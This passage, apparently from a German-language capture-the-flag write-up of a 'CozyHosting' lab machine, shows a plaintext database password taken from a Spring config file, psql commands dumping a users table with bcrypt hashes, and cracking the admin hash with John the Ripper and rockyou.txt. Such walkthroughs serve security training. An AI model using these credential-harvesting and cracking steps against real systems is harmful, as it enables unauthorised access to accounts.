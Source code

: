 Die Datei öffnete sich und ich sah eine Menge Konfigurationsdetails. Mein Fokus richtete sich sofort auf die Zeilen, die mit den Datenbankzugangsdaten zu tun hatten:

```shell
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

## Datenbankuntersuchung

Ich öffnete die Postgres Datenbank
```shell
psql -h localhost -U postgres -d postgres
\l
\c cozyhosting
\dt
SELECT * FROM users;
# kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
# admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Nachdem ich die Zugangsdaten für die PostgreSQL-Datenbank entdeckt hatte, war es an der Zeit, mich mit der Datenbank zu verbinden. Ich verwendete das PostgreSQL-Kommandozeilenwerkzeug `psql` und gab die erfassten Anmeldedaten ein:

`psql -h localhost -U postgres -d postgres`

Als ich mit der Datenbank verbunden war, führte ich `/l` aus, um eine Liste aller Datenbanken anzuzeigen. Dort fand ich die "cozyhosting" Datenbank, die mich sehr interessierte.

`\c cozyhosting`

Nach dem Verbinden mit der "cozyhosting"-Datenbank gab ich `\dt` ein, um alle Tabellen in dieser Datenbank anzuzeigen. Eine Tabelle namens "users" zog sofort meine Aufmerksamkeit auf sich. Ich entschied mich, alle Einträge in dieser Tabelle anzuzeigen:

`SELECT * FROM users;`

Und voilà, dort waren sie: die Benutzernamen und Passwort-Hashes der User. Zwei Einträge standen im Vordergrund:

```shell
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

## Passwordcracking mit John the Ripper

Mit dem bcrypt-Hash in meiner Hand und der Kenntnis, dass bcrypt zwar sicher, aber auch langsam ist, habe ich beschlossen, `john the ripper` mit der berühmten `rockyou.txt` Wortliste zu verwenden, um zu versuchen, das Passwort zu knacken.

Nachdem ich den Hash in eine Datei namens "hash" geschrieben hatte, startete ich `john`:

`john -w rockyou.txt hash`

Zu meiner Überraschung dauerte es nicht allzu lange, und `john` gab das entschlüsselte Passwort zurück: `manchesterunited`. Dieses Passwort hätte der Schlüssel zu vielen Türen sein können.

